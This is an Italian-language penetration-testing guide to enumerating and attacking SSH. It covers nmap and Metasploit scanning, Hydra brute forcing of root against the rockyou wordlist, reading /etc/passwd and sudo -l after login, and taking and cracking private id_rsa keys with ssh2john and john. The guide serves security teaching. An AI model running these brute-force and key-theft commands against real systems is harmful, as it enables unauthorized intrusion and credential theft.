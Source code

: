 # SSH Enumeration & Exploitation

**SSH (Secure Shell)** è un protocollo crittografico che consente l’accesso remoto sicuro a sistemi, tipicamente Linux o Unix-like. <br>
Opera sulla porta TCP **22**. <br>
Pur essendo generalmente sicuro, una cattiva configurazione può renderlo un punto di ingresso critico durante un penetration test.

---

## Fase 1 – Scansione e Identificazione del Servizio

Per verificare se SSH è attivo e quale versione è in esecuzione:
`nmap -sV -p 22 <IP>`
Questo comando identifica la versione del servizio SSH. <br>
Un banner può rivelare, ad esempio:
`22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10`

Se la versione è obsoleta, puoi cercare vulnerabilità note:
`searchsploit openssh <versione>`

Script Metasploit utili:
- `use auxiliary/scanner/ssh/ssh_version` → rileva la versione SSH
- `use auxiliary/scanner/ssh/ssh_enumusers` → enumera utenti sulla base del timing delle risposte

---

## Fase 2 – Brute Force delle Credenziali

### Con Hydra
Hydra è un tool di brute force che supporta diversi protocolli, incluso SSH. Permette di testare combinazioni di credenziali:

`hydra -L <usernameList> -P <passwordList> -t 4 <IP> ssh`

- `-L`: file con la lista degli username
- `-P`: file con la lista delle password
- `-t 4`: numero di thread simultanei

Esempio:
`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10`

### Con Metasploit

`use auxiliary/scanner/ssh/ssh_login`<br>
`set RHOSTS <IP>`<br>
`set USERNAME <username>`<br>
`set PASS_FILE <path_wordlist>`<br>
`run`<br>

Se il login ha successo, il modulo mostrerà la combinazione valida.

> **Nota:** usa velocità ridotte per evitare blocchi o ban da parte del sistema target.

---

## Fase 3 – Accesso e Verifica Manuale

Una volta ottenute le credenziali:

`ssh <username>@<IP>`

Alla prima connessione comparirà:
`Are you sure you want to continue connecting (yes/no)?`
Rispondi `yes`, poi inserisci la password.

Dopo l’accesso:

- `whoami` → mostra l’utente attivo
- `id` → UID, GID e gruppi
- `cat /etc/passwd` → elenca gli utenti del sistema
- `sudo -l` → comandi eseguibili come root (se configurato)

> **Curiosità:** alcuni utenti SSH possono avere accesso root o sudo senza password in ambienti mal configurati.

---

## Fase 4 – Post Exploitation

### Verifica di Configurazioni Deboli

- Verifica la presenza di `PermitRootLogin yes` in `/etc/ssh/sshd_config`
- Controlla la presenza di chiavi SSH private (`id_rsa`, `id_dsa`) in `/home/<user>/.ssh/`
- Se trovi una chiave `id_rsa`, puoi usarla:

```bash
ssh -i id_rsa <user>@<IP>
```

### Crack delle chiavi trovate
Converti una chiave privata in hash:

```bash
ssh2john id_rsa > rsa_hash.txt
john rsa_hash.txt --wordlist=<wordlist>
```

> Questo permette il brute force offline della chiave trovata.

SSH è sicuro se ben configurato. Tuttavia, l'uso di password deboli, configurazioni permissive o la perdita di chiavi private può facilmente portare a una compromissione completa del sistema.

